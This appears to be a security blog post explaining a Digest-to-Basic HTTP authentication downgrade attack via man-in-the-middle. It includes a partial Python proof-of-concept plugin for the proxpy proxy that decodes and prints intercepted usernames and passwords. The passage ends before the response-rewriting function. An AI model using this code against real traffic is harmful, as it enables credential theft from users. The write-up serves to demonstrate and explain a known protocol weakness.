 ### O..K.. so I now get how the Basic vs Digest stuff works, whats next?
What if we could make the browser think that the server wants basic authentication, and then capture the encdoded credentials? That would mean we dont need any l33t cracking skeelz or anything. Just a `base64 -d`.

### Downgrade all the auth!
Assuming you are able to get some form of MiTM between the client and the server, by whichever means you use, we can intercept the headers and change them to tell the browser that we actually want basic authentication. Remember, the browser responds based on what the server asks, so if the server only asks for Basic authentication... :D

"Downgrade" attacks are a known flaw in Digest authentication. Where Digest authentication is not necessarily vulnerable to MiTM attacks in the sense that the hash still needs to be cracked, Basic authentication is and therefore such an attack can prove to be valuable to an attacker.

### Enough talk, PoC!
Using [proxpy](https://code.google.com/p/proxpy/), which is a pluggable python proxy server, I wrote a PoC demoing this exact attack. There are a lot of scenarios where this doesn't work very well, but this is only meant to demonstrate the problem.

#### The plugin

```python dtob.py
# dtob.py
# Digest to Basic downgrade attack PoC plugin for proxpy (https://code.google.com/p/proxpy/)
#
# 2013 Leon Jacobs
# Licensed under IDC (I don't Care) license.
import base64
import hashlib

def headerCleanup(v):

    # strip annoying bracket things
    v = v.translate(None, "'[\\'")
    v = v.translate(None, "\\']'")

    # convert it to a list
    headers = v.split(', ')

    return headers

def proxy_mangle_request(req):

    v = str(req.getHeader("Authorization"))

    headers = headerCleanup(v)

    if 'Basic' in headers[0]:
        print "[*] Basic Auth Response Detected."
        credentials = headers[0].split(" ")
        credentials = base64.b64decode(credentials[1]).split(":")
        print "[!] Found username '%s' and password '%s' for URL %s" % (credentials[0], credentials[1], str(req.url))

    if 'Digest' in headers[0]:
        print "[x] Aww, the client responded with a Digest. \"Were too late!\" :("

    return req

def proxy_mangle_response(res):

```